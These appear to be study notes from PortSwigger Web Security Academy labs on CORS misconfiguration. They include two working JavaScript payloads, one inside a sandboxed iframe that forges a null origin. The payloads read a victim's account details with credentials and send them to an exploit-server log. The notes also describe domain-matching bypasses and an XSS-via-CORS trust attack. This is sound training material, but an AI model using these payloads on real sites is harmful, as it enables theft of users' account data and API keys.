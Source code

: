 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`
Using an `<iframe>` with the `sandbox` attribute can bypass certain restrictions and simulate a `null` origin when testing insecure CORS **configurations**
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0ada006c04817488807e76b3005b0066.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location = 'https://exploit-0a9a008904eb743c806375f8019f00e7.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
    };
</script>">
</iframe>
```

___

## Exploiting XSS via CORS trust relationships - Continued

Given the following request:

```
GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...
````

If the server responds with:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`

Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`